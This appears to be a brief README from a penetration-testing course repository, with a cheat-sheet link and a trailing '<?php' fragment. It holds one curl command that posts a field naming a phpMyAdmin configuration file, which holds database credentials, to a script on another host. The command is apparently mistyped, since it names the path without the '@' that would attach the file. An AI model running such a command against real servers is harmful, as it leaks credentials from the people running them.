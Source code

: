 # ECHWPT

this repo contains Contents about CEH with penteration testing Course 

http://images.linoxide.com/linux-cheat-sheet.pdf

curl -X POST -F 'file=/var/www/phpmy/config.inc.php' http://192.168.100.13/test.php
<?php
